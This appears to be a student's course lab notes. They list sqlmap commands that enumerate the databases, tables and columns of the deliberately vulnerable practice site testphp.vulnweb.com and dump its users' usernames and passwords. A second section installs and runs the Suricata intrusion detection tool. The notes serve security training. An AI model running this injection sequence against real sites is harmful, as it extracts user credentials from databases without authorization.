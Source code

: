 # 3-2lab


sql cammods


sqlmap –u testphp.vulnweb.com/artists.php?artist=1 --dbs

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart --tables

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart –T users –-columns

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart –T users –C uname --dump

sqlmap –u testphp.vulnweb.com/artists.php?artist=1 –D acuart –T users –C pass –dump

 week9
 
 suricata tool
 
 
 apt install suricata
 
 
 suricata -i eth0 -v
 
 
 ctrl + c
 
 
 cat /var/log/suricata/eve.json
